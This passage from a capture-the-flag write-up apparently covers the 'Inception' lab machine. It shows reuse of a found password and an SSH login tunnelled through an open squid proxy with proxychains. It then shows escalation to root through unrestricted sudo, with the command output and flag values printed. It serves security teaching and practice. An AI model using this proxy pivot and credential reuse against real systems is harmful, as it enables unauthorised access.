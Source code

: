 # SSH via squid proxy
So I have valid credentials, for MySQL but it isn't running on the host:
```bash
$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::3128                 :::*                    LISTEN      -
udp        0      0 0.0.0.0:38433           0.0.0.0:*                           -
udp6       0      0 :::45319                :::*                                -
```
But I see SSH running on the box. 
`cobb:VwPddNh7xMZyDQoByQL4` can be valid credentials for SSH, but maybe rules have been added to deny from other hosts. 

Let's add `http 10.10.10.67 3128` to /etc/proxychains as discussed above.
What it does is proxy our http traffic through port 3128 (which is running squid proxy server with http). Which will access SSH and forward our traffic through.
```bash
$ proxychains ssh cobb@127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-10.10.10.67:3128-<><>-127.0.0.1:22-<><>-OK
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:dr5DOURssJH5i8VbjPxvbeM+e2FyMqJ8DGPB/Lcv1Mw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
cobb@127.0.0.1's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Nov 30 20:06:16 2017 from 127.0.0.1
cobb@Inception:~$ ls
user.txt
cobb@Inception:~$ cat user.txt
4a8bc2d686d093f3f8ad1b37b191303c
cobb@Inception:~$
```
# Privesc
Checking for sudo permissions:
```bash
cobb@Inception:~$ sudo -l
[sudo] password for cobb:
Matching Defaults entries for cobb on Inception:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
```
Getting root:
```bash
cobb@Inception:~$ sudo su
root@Inception:/home/cobb# cd
root@Inception:~# ls
root.txt
root@Inception:~# cat root.txt
You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
```
